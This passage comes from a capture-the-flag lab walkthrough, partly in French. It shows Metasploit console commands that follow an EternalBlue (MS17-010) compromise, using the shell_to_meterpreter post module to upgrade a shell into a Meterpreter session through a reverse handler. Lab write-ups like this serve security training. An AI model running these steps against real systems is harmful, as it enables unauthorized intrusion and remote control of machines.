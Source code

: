 ## #2 Select this (use MODULE_PATH). Show options, what option are we required to change?

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter 
```
```
msf5 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

> Réponse: **SESSION**

## #3 Set the required option, you may need to list all of the sessions to find your target here.

```
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
```

## #4 Run! If this doesn't work, try completing the exploit from the previous task once more.

Cette opération va lancer une handler TCP sur Kali (netcat) et envoyer un exploit sur le serveur pour essayer d'upgader le shell.

```
msf5 post(multi/manage/shell_to_meterpreter) > run
```

> ça peut prendre quelques secondes, attendre le message "Stopping exploit/multi/handler"

*option rapide : *

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -u 1
```

## #5 Once the meterpreter shell conversion completes, select that session for use.

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 2
```
